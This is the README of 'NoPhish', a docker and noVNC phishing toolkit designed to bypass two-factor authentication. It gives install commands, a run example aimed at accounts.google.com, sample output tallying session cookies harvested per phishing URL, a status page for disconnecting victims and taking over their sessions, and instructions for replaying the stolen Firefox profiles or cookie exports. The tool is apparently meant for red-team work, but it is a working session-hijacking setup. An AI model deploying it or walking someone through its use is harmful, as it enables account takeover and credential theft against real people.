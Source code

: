 
<div align="right">
  <details>
    <summary >🌐 Language</summary>
    <div>
      <div align="center">
        <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=en">English</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=zh-CN">简体中文</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=zh-TW">繁體中文</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=ja">日本語</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=ko">한국어</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=hi">हिन्दी</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=th">ไทย</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=fr">Français</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=de">Deutsch</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=es">Español</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=it">Italiano</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=ru">Русский</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=pt">Português</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=nl">Nederlands</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=pl">Polski</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=ar">العربية</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=fa">فارسی</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=tr">Türkçe</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=vi">Tiếng Việt</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=id">Bahasa Indonesia</a>
        | <a href="https://openaitx.github.io/view.html?user=powerseb&project=NoPhish&lang=as">অসমীয়া</
      </div>
    </div>
  </details>
</div>

# NoPhish
 
Another phishing toolkit which provides an docker and noVNC based infrastructure. The whole setup is based on the initial article of [mrd0x](https://mrd0x.com/bypass-2fa-using-novnc/) and [fhlipzero](https://fhlipzero.io/blogs/6_noVNC/noVNC.html).

A detailed description of the setup can be found here - [Another phishing tool](https://powerseb.github.io/posts/Another-phishing-tool/)

## Installation

Ensure that docker is installed and working.

Install the required python modules:

```console
pip install lz4
```

Install the setup (which will create the required docker images):

```console
setup.sh install
```

## Execution

The setup offers the following parameters:

```console
Usage: ./setup.sh -u No. Users -d Domain -t Target
         -u Number of users - please note for every user a container is spawned so don't go crazy
         -d Domain which is used for phishing
         -t Target website which should be displayed for the user
         -e Export format
         -s true / false if ssl is required - if ssl is set crt and key file are needed
         -c Full path to the crt file of the ssl certificate
         -k Full path to the key file of the ssl certificate
         -a Adjust default user agent string
         -z Compress profile to zip - will be ignored if parameter -e is set
         -p Additional URL parameters - if not set generic URL will be generated

```

A basic run looks like the following:

```console
./setup.sh -u 4 -t https://accounts.google.com -d hello.local 
```

During the run the following overview provides a status per URL how many cookies or session informations have been gathered.

```console
...
[-] Starting Loop to collect sessions and cookies from containers
    Every 60 Seconds Cookies and Sessions are exported - Press [CTRL+C] to stop..
For the url http://hello.local/v1/oauth2/authorize?access-token=b6f13b93-1b51-41c4-b8b4-b07932a45bd6 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v2/oauth2/authorize?access-token=fd54dbec-c057-4f46-8657-c0283e5661d9 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v3/oauth2/authorize?access-token=9d606939-b805-4c65-9e98-2624de2cd431 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v4/oauth2/authorize?access-token=84b8d725-7e87-439e-8629-53332092b68f :
-  0  cookies have been collected.
-  5  session cookies have been collected.
```

Please note that the tool will export all cookies / session information even when it is not related to a successfull login.

Further you can also directly interact with the tool on the status page - `http(s)://%DOMAIN%:65534/status.php`. There you have the possability to disconnect the user and directly take over the session. 

In the current version of the tool for every user two containers are spawned - one for desktops and one for mobile devices. Based on the user agent the target gets redirected to suitable container. The output of the mobile container is named with a leading "m" (e.g. mphis1-ffprofile). 

## Using profile export
If you are using the complete FireFox profile export, you can just call firefox with -profile like that:

On Windows:
`& 'C:\Program Files\Mozilla Firefox\firefox.exe' -profile <PathToProfile>\phis1-ffprofile\`

On Linux:
`firefox-esr -profile <PathToProfile>/phis1-ffprofile --allow-downgrade`

Everything is getting restored, including the latest site.

Please note by default you need to extract the zip archive or set the parameter `-z` to `false`. If the export format `-e simple` is chosen two json files will be generated which can be used with Cookiebro which is available for [Firefox](https://addons.mozilla.org/de/firefox/addon/cookiebro/) and [Chrome](https://chrome.google.com/webstore/detail/cookiebro/lpmockibcakojclnfmhchibmdpmollgn).


## CleanUp

During a run the script can be terminated with `ctrl` + `c` - all running docker container will then be deleted. To fully remove the setup run `setup.sh cleanup`.

